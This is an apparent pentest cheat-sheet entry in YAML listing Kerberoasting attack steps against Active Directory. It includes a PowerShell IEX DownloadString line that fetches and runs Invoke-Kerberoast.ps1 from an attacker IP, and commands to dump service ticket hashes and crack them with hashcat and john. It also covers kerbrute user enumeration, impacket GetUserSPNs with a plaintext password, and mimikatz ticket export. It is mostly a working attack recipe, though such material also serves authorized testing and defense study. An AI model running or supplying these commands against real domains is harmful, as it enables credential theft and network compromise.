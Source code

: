 ```yaml
---
functions:
  privilege-escalation:
    - description: Invoke-Kerberoast
      code: |
        (1) IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
        (2) Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
        (3) Transfer the file over to attacker's system for cracking
        (4) Choose the account you want to crack and make into a unique file (for speed purposes)
        (5) hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force

    - description: With impacket
      code: |
        (1) kerbrute userenum -d controller.local --dc dc.controller.local --downgrade User.txt  # check if pre-auth is disabled using so can request his TGT key
        (2) john user3.hash --wordlist=/usr/share/wordlists/rockyou.txt
        (3) impacket-GetUserSPNs controller.local/user3:Password3 -dc-ip 10.10.156.127 -request   # try to crack the kerberoasted accounts

    - description: kerberoast with (almost all-not really) native tools
      code: |
        (1)  Get-SPN -type service -search "*"

        (2)  Add-Type -AssemblyName System.IdentityModel
        New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

        (3)  klist - confirm

        (4)  mimikatz# kerberos::list /export  (upload for cracking)

        (5)  run kirbi2john.py   OR   tgsrepcrack.py


resources: |
  https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
  https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1
---
```


